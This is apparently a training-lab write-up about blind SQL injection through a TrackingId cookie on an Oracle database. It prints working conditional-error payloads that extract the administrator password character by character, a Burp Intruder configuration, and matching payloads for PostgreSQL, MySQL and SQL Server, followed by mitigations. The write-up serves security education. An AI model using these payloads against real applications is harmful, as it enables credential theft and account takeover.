

# Lab 12: Blind SQL injection with conditional errors

## Category
SQL Injection - Blind SQLi with Conditional Errors (Oracle)

## Vulnerability Summary
The website's session tracking mechanism contains a blind SQL injection vulnerability in the `TrackingId` cookie. The application uses the tracking ID value in a SQL query without proper sanitization, allowing attackers to inject arbitrary SQL conditions. By using conditional logic with error triggers, attackers can extract sensitive data character-by-character based on whether the application returns an error or not.

## Steps to Reproduce
1. Navigate to the lab and intercept the request in Burp Suite Proxy.
2. Identify the `TrackingId` cookie as the injection point.
3. Test for SQL injection by injecting a conditional error payload:
   - Payload: `'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)--`
4. Observe that the page returns an error when the condition is true (error triggered).
5. Use Burp Suite Intruder to automate password extraction:
   - Set up Sniper attack mode with two payload positions
   - Position 1: Cookie value base payload
   - Position 2: Character to test
6. Configure payload to extract password character-by-character:
   - Base payload: `sr3AM9zfixopg1D1'||(SELECT CASE WHEN SUBSTR(password,$position$,1)='§char§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
7. Run the attack and monitor which characters cause errors (indicating correct character).
8. Compile the extracted password from the Intruder results.
9. Navigate to `/login` and authenticate with extracted credentials.
10. Verify successful login as administrator.



## Technical Root Cause
The vulnerability stems from improper handling of cookie values in SQL query construction:

- **Unsanitized Cookie Input:** The `TrackingId` cookie value is directly concatenated into SQL queries without validation.
- **Missing Parameterization:** The application does not use parameterized queries or prepared statements for cookie values.
- **Conditional Error Trigger:** Oracle's `TO_CHAR(1/0)` causes a division-by-zero error when the condition is true.
- **Boolean-Based Blind SQLi:** The presence or absence of errors reveals whether injected conditions are true or false.
- **Character-by-Character Extraction:** Using `SUBSTR()` function, each password character can be tested individually.
- **No Input Validation:** The application accepts SQL operators and special characters in cookies without validation.

### Payload Used

**Base Injection Payload (Oracle):**
```
'||(SELECT CASE WHEN (condition) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

**Password Extraction Payload (per character):**
```
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

**Full Cookie Value (example):**
```
TrackingId: sr3AM9zfixopg1D1'||(SELECT CASE WHEN SUBSTR(password,20,1)='t' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'; session=...
```

### How It Works

1. **Cookie Injection Point:**
   - The original query likely looks like: `SELECT * FROM sessions WHERE tracking_id = 'cookie_value'`
   - The injection closes the string and adds a conditional CASE statement

2. **Conditional Error Logic:**
   - `CASE WHEN SUBSTR(password,N,1)='X'` - Tests if character at position N equals X
   - `THEN TO_CHAR(1/0)` - Triggers division-by-zero error if condition is TRUE
   - `ELSE ''` - Returns empty string (no error) if condition is FALSE

3. **Error Detection:**
   - **Error page appears** → Condition was TRUE → Character is correct
   - **Normal page** → Condition was FALSE → Character is incorrect

4. **Character Extraction:**
   - Iterate through positions (1, 2, 3, ...)
   - For each position, test all possible characters (a-z, 0-9)
   - When error occurs, that character is correct

### Oracle-Specific Syntax

| Function | Purpose | Example |
|----------|---------|---------|
| `SUBSTR(string, pos, len)` | Extract substring | `SUBSTR(password,1,1)` |
| `TO_CHAR(number)` | Convert to string | `TO_CHAR(1/0)` triggers error |
| `CASE WHEN...THEN...ELSE...END` | Conditional logic | `CASE WHEN 1=1 THEN...` |
| `FROM dual` | Dummy table for SELECT | `SELECT 1 FROM dual` |
| `||` | String concatenation | `'a'||'b'` |

### Alternative Payloads for Different Databases

| Database | Error Trigger Payload |
|----------|----------------------|
| Oracle | `'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)--` |
| PostgreSQL | `' AND (SELECT CASE WHEN (1=1) THEN cast(1/0 as int) ELSE 1 END)--` |
| MySQL | `' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 1 END)--` |
| SQL Server | `' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 1 END)--` |

### Burp Suite Intruder Configuration

**Attack Type:** Sniper

**Payload Positions:**
```
Cookie: TrackingId=§base_payload§§char§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'; session=...
```

**Payload Set 1 (Base):**
```
sr3AM9zfixopg1D1'||(SELECT CASE WHEN SUBSTR(password,N,1)='
```

**Payload Set 2 (Characters):**
```
a, b, c, d, e, f, g, h, i, j, k, l, m, n, o, p, q, r, s, t, u, v, w, x, y, z
0, 1, 2, 3, 4, 5, 6, 7, 8, 9
```

**Grep Match Configuration:**
- Check for "Internal Server Error" or similar error messages
- Or monitor response length differences

## Impact
- **Complete Credential Exposure:** Attackers can extract full administrator password.
- **Account Takeover:** Extracted credentials allow full administrative access.
- **Data Breach:** Any data accessible to the database user can be extracted.
- **Time-Consuming but Effective:** While slow, this technique reliably extracts data.
- **Compliance Violation:** Violates data protection regulations (GDPR, PCI-DSS, HIPAA).
- **Legal Liability:** Organization may face lawsuits and regulatory fines.
- **Reputation Damage:** Public disclosure of data breach severely affects user trust.
- **Privilege Escalation:** Admin access enables further exploitation.

## Mitigation
1. **Parameterized Queries:** Use prepared statements with parameterized queries for all database operations including cookie values.
2. **Input Validation:** Validate and sanitize all cookie values before use in queries.
3. **Cookie Integrity:** Use signed/encrypted cookies to prevent tampering.
4. **Error Handling:** Implement generic error messages that don't reveal database errors.
5. **Least Privilege:** Database accounts should have minimal permissions.
6. **Web Application Firewall:** Deploy WAF rules to detect SQL injection patterns in cookies.
7. **Regular Security Testing:** Conduct periodic penetration testing for SQL injection.
8. **ORM Usage:** Consider using Object-Relational Mapping frameworks that handle SQL safely.
9. **Session Management:** Use secure, random session identifiers that aren't database-derived.
10. **Monitoring:** Implement logging and alerting for suspicious SQL error patterns.

---
*Lab completed on: 2026-03-20*
